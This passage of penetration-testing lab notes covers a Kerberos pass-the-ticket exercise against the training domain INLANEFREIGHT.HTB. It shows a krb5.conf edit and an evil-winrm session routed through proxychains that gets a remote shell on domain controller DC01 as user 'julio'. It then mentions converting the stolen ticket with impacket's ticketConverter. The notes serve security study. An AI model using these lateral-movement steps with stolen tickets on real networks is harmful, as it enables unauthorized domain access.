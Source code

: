#### Administrative server for your Kerberos realm
![[Pasted image 20251009142134.png]]
In case the package `krb5-user` is already installed, we need to change the configuration file `/etc/krb5.conf` to include the following values:

#### Kerberos configuration file for INLANEFREIGHT.HTB
```shell
> cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

...SNIP...

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

...SNIP...
```
Now we can use evil-winrm.

#### Using Evil-WinRM with Kerberos
```shell
> proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Miscellaneous
If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them. To use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi.
